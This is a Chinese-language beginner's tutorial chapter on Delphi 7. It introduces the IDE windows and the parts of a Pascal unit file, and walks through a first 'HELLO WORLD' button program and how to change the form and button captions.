

图 1.4



图 1.5



图 1.6

## 1.2 认识 Delphi 编译器

Delphi 作为一款可视化的编译器，是进行 Delphi 编程的一个重要环节，只有认识和熟练了解了 Delphi 编译器后，我们才能提高编程效率，提高编程的能力。

### 1.2.1 编译器

#### 一、Delphi 概括

Delphi 实际上是 Pascal 语言的一种版本，但它又与传统的 Pascal 语言有天壤之别。一个 Delphi 程序，首先是应用程序框架，而这一框架正是应用程序的“骨架”，在“骨架”上即使没有附着任何东西，仍可以严格地按照设计运行，我们要做的工作就是在“骨架”中加入自己的程序。缺省的应用程序是一个空白的窗体（Form1），我们可以运行它（按 F9），但结果是得到一个空白的窗口，这个窗口具有 Windows 窗口的全部性质：可以被放大或缩小、移动、最大或最小化等，但事实上我们却没有编写一点点的程序代码。因此可以说，应用程序框架通过提供所有应用程序所共有的东西，为用户应用程序的开发提供了良好的基础。Delphi 已经为我们做好了所有的准备工作，我们所要做的，只是在程序中加入自己所需功能的代码而已。

在空白窗口的背后，应用程序的框架正在等待用户的输入。由于我们并未告诉它接收到用户的输入后作何反应，因此窗口除了响应 Windows 的基本操作（移动、缩放等）外，就只是接受用户的输入，然后再忽略掉。

Delphi 把 Windows 编程的回调、句柄处理等繁复过程都放在了一个不可见的薄层覆盖物下面，这样程序编写者就可以不受它们的困扰，可以轻松地对可视部件进行编程了。

#### 二、Delphi 快速入门

接下来，我们编写一个简单的小程序。随着程序编写的过程，逐步来介绍 Delphi 的主要部件及其操作方法。建议读者们按照本书所介绍的内容，在自己的电脑上直接操作，这样就会对 Delphi 的可视化编程有一个直观、快捷的了解，就会起到事半功倍的效果了。

双击桌面上的 Delphi 快捷方式，或者是从“开始”－“程序”菜单中运行 Delphi，首先就会出现一个 Delphi 启动画面，如图 1.7。启动之后，Delphi 的界面就会出现了。

可以看到 Delphi 的编译器主要有：标题为“Delphi 7 -- Project1”的 Delphi 主窗口，标题为“Object Inspector”的对象监视器窗口（修改组件属性的窗口），标题为“Form1”的窗体窗口，标题为“Unit1.PAS”的代码编辑窗口（在 Form1 窗口之后，所有的 Delphi 代码全部要在这里进行编写），下面我们将对这些窗口分别进行介绍，如图 1.8。





##### （一）主窗口（Main Form）

Delphi 的主窗口位于屏幕的上端，包括 Menu（菜单）、Speed Bar（加速条）和 Component Panel（部件选项板）。

Menu 是下拉式主菜单；Speed Bar 位于主窗口的左下端，由两排共 14 个加速按钮组成，这些按钮是菜单功能的快捷方式，各种图标直观地表示了它所能执行的动作；Component Panel 是由一行、若干页对象按钮所组成，利用它来选择所需要的部件并将部件放置到窗体中去，如图 1.9。



##### （二）Object Inspector（对象检视器）

Object Inspector 窗口中主要包含有两项：Properties 页显示窗体中当前被选择部件的属性信息，并允许改变对象的属性；Events 页列出了当前部件可以响应的事件。点击“Events”标签，使得 Events 页可见，在事件后边的空白栏处可以定义对象接收到相应事件时所执行的动作。

首次启动时，Object Inspector 窗口显示的是当前窗体 Form1 的属性，Object Inspector 根据对象属性的多少来决定是否有滚行显示，移动滚行条，就可以查看当前对象的全部属性。此外，Object Inspector 中还有 Object Selector（对象选择器），位于 Object Inspector 上方的下拉式菜单中。它显示了窗体上所有部件的名称和类型，也包含窗体本身，我们使用 Object Selector 可以很方便地在窗体的各个部件间进行切换，也可以快速地回到窗体本身中。当窗体中包含有较多的对象时，我们就会发现这是切换对象尤其是返回到窗体的最快捷径。

要想使 Object Inspector 一直可见，可以将鼠标移到 Object Inspector 上，点击右键以启动 Object Inspector 的快捷菜单，选择其中的“Stay On Top”（置顶），如图 1.10。





##### （三）窗体窗口

Form 窗口是进行程序设计的主要工作区域，首次启动 Delphi 时显示的是窗体 Form1，可以把部件放置在窗体中，通过移动位置、改变尺寸等操作随心所欲地安排它们，以此来开发应用程序的用户界面，我们可以把窗体想象成一个可以放置其他部件的容器。窗体上有栅格（Grids），用于放置部件时对齐位置，如图 1.11，在程序运行时这时 Grids 是不可见的。一个真正的应用程序可能有不止一个窗口，我们可以选用不同的窗体进行设计，其他窗体可以是对话框（Dialog Box）、数据录入框等。

##### （四）代码窗口

代码窗口在一开始是位于窗体窗口之下的，因为在 Delphi 中，设计用户界面直接在窗体中进行，运行结果和设计样板完全一致。当部件被放置到窗体上时，Delphi 会自动生成大部分的用户界面代码，我们所要做的只是在它生成的框架中加入完成所需功能的程序段而已。直接双击 Form1 窗口就可以来到代码编辑窗口了，可以在代码编辑窗口中书写 Delphi 应用程序的源代码；当程序中包含有不止一个窗口时，会有几个库单元的源程序出现在代码编辑器中，代码编辑器的标题条中显示了当前正在编辑的库单元文件名，要查看某一特定程序的源代码，只需用鼠标点动写有该库单元文件名的页标签，就可以对该库单元进行编辑了，如图 1.12。



图 1.12

代码窗口中默认的代码如下（Delphi 自动生成的代码）：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs;

type
  TForm1 = class(TForm)
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

end.
```

### 1.2.2 单元文件

单元文件是整个 Delphi 的重点，因为程序界面可以“拖拽”出来，但是代码编写才是编程的真谛，而单元文件就是 Delphi 编写代码的地方。事实上，图 1.12 中显示的也就是 Delphi 单元文件的默认代码，我们来详细介绍一下其中每个部分的含义。

#### 一、单元文件头

在单元文件头中，声明了单元的名字，默认的名字为 Unit1，只有在保存文件名时才可以修改文件头的名称。

#### 二、Interface 部分

这段由保留字 interface 开始，结束于保留字 implementation，它用来声明引用的单元、常量、数据类型、变量、过程和函数。在这部分声明的变量、常量、数据类型、过程、函数等都可以供外部引用，对整个程序而言是共有的。也就是说，对于所有引用该单元的单元来说，这些声明都是可见和可访问的。在 Interface 部分，只需要写出过程和函数的首部，而具体的定义则是在下面的 implementation 部分给出的。Interface 部分又可以分为多个可选部分，分别为单元引入部分（uses）、常量说明部分、类型说明部分、变量说明部分、过程和函数声明部分。

#### 三、Implementation 部分

Implementation 分为两部分：一个是声明部分，包括单元引用、常量、类型、变量、过程和函数的声明，这一点和 Interface 部分相似。但区别则有以下两点：

- 1. 在 Implementation 部分声明的只对本单元是公共的、可见的，其他单元即使引用了该单元，也不能访问它们。
- 2. 在 Implementation 部分声明的过程和函数，不需要遵循先声明后定义的规则，而是可以直接写出过程和函数的定义。

Implementation 的另一部分就是在 Interface 部分声明的过程和函数的定义。

#### 四、Initialization 部分

用于初始化该库单元，此处的代码最先执行，如果在多个库单元中包含 Initialization 部分，那么它们的执行顺序就和 Program 的 uses 部分引用单元的出现顺序是一致的。

#### 五、Finalization 部分

这部分通常用于释放 Initialization 部分分配的资源，如果在多个库单元中包含 Finalization 部分，其执行的顺序则和 Initialization 部分正好相反。

#### 六、Sender 参数

我们仔细看上面的程序代码，就会发现在事件处理程序的参数中至少包含有一个参数 Sender，它代表触发事件处理程序的组件，有了 Sender 参数，就可以使多个组件共用相同的事件处理程序。

#### 七、Self 参数

Self 是指所编写的程序范围是在哪一个类中，在 Delphi 中基本都是在窗体范围内进行编程，因此，我们也可以认为，Self 指的就是窗体；如果编写的是一个类或是一个组件，则 Self 指的就是该类或该组件。我们在过程和函数的声明中可以看出 Self 是代表哪个组件，即 Self 代表“.”号之前的组件。另外还要注意，Self 只能用在类方法中，不能用在过程或函数中。

#### 八、Parent 和 Owner 的区别

- 1. Parent 属性是指组件的包容器，组件只能在此范围内显示和移动。
- 2. Owner 属性是指组件的所有者，它负责组件的创建和释放。Create 方法应带有表示组件所有者的参数。
- 3. 它们都是运行阶段的属性，只能通过代码设置。

## 1.3 Delphi 编程之旅

本节我们来介绍如何使用 Delphi 进行简单的程序开发，同时还会介绍 Delphi 的一些常见的基础组件，读者朋友们可以在此基础上通过实践来强化认识，提高自己的编程能力。

### 1.3.1 第一个程序

运行 Delphi，把默认的窗口调整到合适的大小，然后在窗口上面添加一个 Button 按钮组件。添加方法就是在 VCL 组件栏上单击 Button 图标，然后来到 Form1 窗口，再次单击，就可以把 Button 组件添加到 Form1 上面了，如图 1.13。

双击这个 Button 按钮组件，就可以来到代码编辑窗口。在代码编辑窗口输入如下代码，通过调用 ShowMessage 这个函数来弹出一个对话框，其中对话框的文本内容为“HELLO WORLD!”（你好，世界！），如图 1.14。



图 1.13



图 1.14

最终，在代码窗口中的全部代码如下。

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  ShowMessage('HELLO WORLD!');   // 调用函数，弹出消息
end;

end.
```

按下 F9 键，就可以运行这个编写好的程序了，单击 Button1 按钮，可以看到弹出了一个消息框，如图 1.15，属于我们的第一个程序就编写完毕了。

但是，细心的读者也可以看到，窗体上 Button1 按钮的标题是缺省的“Button1”，而程序窗体的标题栏也没有修改默认的名称 Form1，这让人感觉到有些不够专业，现在就来教大家如何修改这些组件的属性。

首先点击 Form1，也就是 Delphi 中默认的编程窗口，来到对象监视器中，选择 Caption 属性，在后面的输入框中输入要修改的标题，这样就可以将窗口标题修改成我们所要的了，如图 1.16。再单击 Button1 按钮，来到对象监视器窗口中，同样修改其中的 Caption（标题）属性，修改标题属性为“确定”，如图 1.17。这时，再次按下 F9 键，就可以运行程序了，我们可以看到程序的界面已经变得专业一些了，如图 1.18。

